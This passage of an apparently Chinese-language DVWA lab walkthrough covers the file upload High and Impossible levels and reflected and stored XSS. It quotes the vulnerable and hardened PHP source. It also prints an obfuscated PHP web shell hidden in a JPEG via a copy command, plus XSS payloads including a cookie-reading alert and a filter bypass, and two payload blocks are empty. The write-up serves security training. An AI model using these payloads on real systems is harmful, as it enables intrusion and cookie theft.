    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

其中，需要介绍的函数有

| 函数                          | 解释                                                  |
| ----------------------------- | ----------------------------------------------------- |
| substr(string, start, length) | 在string中，从start处开始截取length长度的字符串返回。 |
| strrpos(string, find)         | 查找find在string中最后出现的位置。                    |

High等级将上传文件的文件后缀取出来，判断最后一个`.`后面的后缀是否为`jpg`、`jpeg`、`png`。若不是则无法上传。

因为最后是检验最后一个点后面的后缀名，因此可以考虑使用`0x00`截断。

关于`0x00`和`%00`的关系，我们可以在[安~然](https://blog.csdn.net/zpy1998zpy/article/details/80545408)的这篇博文上找到答案。

之后bp时间后发现没有实现，查资料发现是php<5.3.4才可能存在此漏洞。

之后又尝试了图片马，结合文件包含漏洞进行测试，可上传成功，但是访问时报错，是语法问题，和引号有关。报错内容如下：


```php
<?php $a1='ass';$a2='ert';$arr=array($a1.$a2=>"test");$arr1=array_flip($arr);$arr2="$arr1[test]";@$arr2($_POST[shell]); ?>
```

```shell
copy 1.jpg/b+shell.php/a 3.jpg
```

通过hackbar访问，成功，但是通过蚁剑连接的时候出现问题，返回为空。


## Impossible

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Can we move the file to the web root from the temp folder?
        if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
        }
        else {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }

        // Delete any temp files
        if( file_exists( $temp_file ) )
            unlink( $temp_file );
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

我们审计源码，发现其中有`Anti-CSRF`来预防`CSRF`。

```php
$target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
```

通过这步代码，将目标文件的名字最后改为MD5处理后的名字，后缀改为上传时的最后的后缀。同事临时文件tmp_file也进行相同的处理。

然后判断上传的后缀和文件类型是否符合图片的格式，符合条件，才进行存储。

# XSS(Reflected)

## low

我们首先输入1，测试发现，是将我们的输入直接输出在了html中，所以可以尝试写一段脚本进去。

```javascript
<script>alert(document.cookie)</script>
```


成功。。。

## Medium

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

我们可以发现是将输入中存在的`<script>`更改为空。因此，我们可以输入

```js
<scr<script>ipt>alert('1');</script>
```

来绕过。


## High

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

High相对于Medium，从字符串的匹配，升级成了正则的匹配，只要是顺序是<script，无论中间出现多少的字符，都会被替换为空。

因此我们可以尝试用其他的标签来绕过。

```js

```


## Impossible

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

这里提供作用的主要是函数`htmlspecialchars()`，该函数的作用是将一些预定义的字符转换为HTML实体。如：

- `&`：转换为`&amp;`
- `"`：转换为`&quot;`
- `'`：转换为`‘`
- `<`：转换为`&lt;`
- `>`：转换为`&gt;`

# XSS(Stored)

## low

同反射型XSS一样，写入就可以了，下次再访问也可执行。

## Medium

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = mysql_real_escape_string( $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = mysql_real_escape_string( $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}

?>
```

阅读源码，发现对`message`进行了`htmlspecialchars()`的调用，将字符串中间的特殊字符全转义为了html实体，因此`message`中不存在xss注入。但是name中只进行了`str_replace()`将`<script>`给过滤掉成了空，因此可以在`name`中进行注入。

```js
<scr<script>ipt>alert('1');</script>
```

写入时发现无法输入长字符串，`F12`打开源码发现


直接手动将maxlength调整为一个大数，如1000。

然后注入成功。

## High

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = mysql_real_escape_string( $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = mysql_real_escape_string( $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}

?>
```

这里同反射型xss一样，既然屏蔽了script，那么我们可以通过其他的标签来实现。

```js

```

## Impossible

```php

<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = mysql_real_escape_string( $name );
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

这里对`message`和`name`都通过`htmlspecialchars()`进行了html实体的转义，因此不存在xss注入。